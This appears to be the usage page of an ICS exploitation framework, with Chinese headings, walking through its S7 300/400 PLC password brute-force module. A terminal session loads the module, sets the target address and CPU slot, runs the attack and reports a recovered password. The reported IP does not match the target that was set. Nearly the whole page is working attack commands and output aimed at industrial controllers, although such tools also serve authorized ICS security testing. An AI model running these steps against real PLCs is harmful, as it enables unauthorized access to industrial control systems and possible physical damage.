 # S7 Bruteforece

# 使用 S7 bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 14
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search bruteforce
    creds/ftp_bruteforce
    creds/http_basic_bruteforce
    creds/http_digest_bruteforce
    creds/http_form_bruteforce
    creds/s7_bruteforce
    creds/snmp_bruteforce
    creds/ssh_bruteforce
    creds/telnet_bruteforce
    isf > use creds/s7_bruteforce

    
# 设置目标参数
    isf (S7 300/400 PLC Password Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name                Current settings                                                                                Description
       ----                ----------------                                                                                -----------
       slot                2                                                                                               CPU slot number.
       threads             3                                                                                               Number of threads
       stop_on_success     yes                                                                                             Stop on first valid community string
       verbose             0                                                                                               Verbose scapy output. 1: display, 0: hide
       password            file:///Users/zhuwz/mywork_space/Projects/Hack/isf-public/icssploit/wordlists/passwords.txt     password string or file with community strings (file://)
       rack                0                                                                                               CPU rack number.

    isf (S7 300/400 PLC Password Bruteforce) > set target 192.168.1.10
    [+] {'target': '192.168.1.10'}
    # 设置目标PLC 槽位号
    isf (S7 300/400 PLC Password Bruteforce) > set slot 3
    [+] {'slot': '3'}

# 执行暴力破解
    isf (S7 300/400 PLC Password Bruteforce) > run
    [*] Running module...
    [*] Elapsed time:  11.8677530289 seconds
    [+] Credentials found!
    
       Target             Port     password
       ------             ----     --------
       192.168.70.210     102      password
    isf (S7 300/400 PLC Password Bruteforce) >
